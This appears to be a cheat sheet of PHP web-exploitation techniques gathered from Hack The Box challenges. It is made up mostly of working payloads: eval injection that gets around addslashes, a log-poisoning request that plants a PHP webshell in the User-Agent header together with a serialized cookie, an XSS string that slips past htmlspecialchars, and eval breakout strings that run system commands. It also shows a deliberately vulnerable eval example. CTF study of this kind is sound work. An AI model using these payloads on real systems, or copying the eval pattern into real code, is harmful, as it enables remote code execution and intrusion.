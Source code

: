 # addslashes()
This function escapes single & double quotes.
```php
# Assuming that the variable is passed to eval
${system($_GET[1])}&1=whoami;
# If it's not passed to eval
${eval($_GET[1])}&1=system($_GET[2]);&2=whoami;
```
- Challenge: https://app.hackthebox.com/challenges/lovetok
> **References:** 
> https://www.programmersought.com/article/30723400042/

# include() 
Only generates a warning, i.e., E_WARNING, and continue the execution of the script.

**Case**:  From LFI to log poisoning
- Burpsuite request example:
```txt
# Cookie Serialization exploit
# O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}

GET /?c=cat+/flag_qlvM8 HTTP/1.1
Host: 178.128.163.152:30522
User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```
- Challenge: https://app.hackthebox.com/challenges/224

> **References:**
> https://www.hackingarticles.in/apache-log-poisoning-through-lfi/
# htmlentities() & htmlspecialchars
It doesn't encode single quotes by default
```html
'onerror='alert("XSS")''
```
> **Reference**:
> https://github.com/X-Vector/XSS_Bypass/blob/master/htmlspecialchars%20-%20htmlentities/README.md

# Loose Comparison
- `===`
```php
<?php
if(NULL === NULL){ echo "Equal"; } else{ echo "not Equal"; }
?>
// Equal
```
- `==`
```php
<?php 
if(NULL == ''){ echo "Equal"; } else{ echo "not Equal"; }
?>
// Equal
```
# Eval
Always pay attention to the behaviour and aim to fix the syntax in order to acheive code execution. Taking the code below as an example, we can acheive code execution by payloads such like:
- `".system("ls")."`
```php
<?php
  if (!isset($_GET["name"])) {
    header("Location: /?name=hacker");
    die();
  }
  require "header.php";
?>
  $str="echo \"Hello ".$_GET['name']."!!!\";";
  eval($str);
?>
<?php
  require "footer.php";
?>
```
The challenge here is to break out of the code syntax and keep a clean syntax. There are many ways to do it:
-   By adding dummy code: `".system('uname -a'); $dummy="`
-   By using comment: `".system('uname -a');#` or `".system('uname -a');//`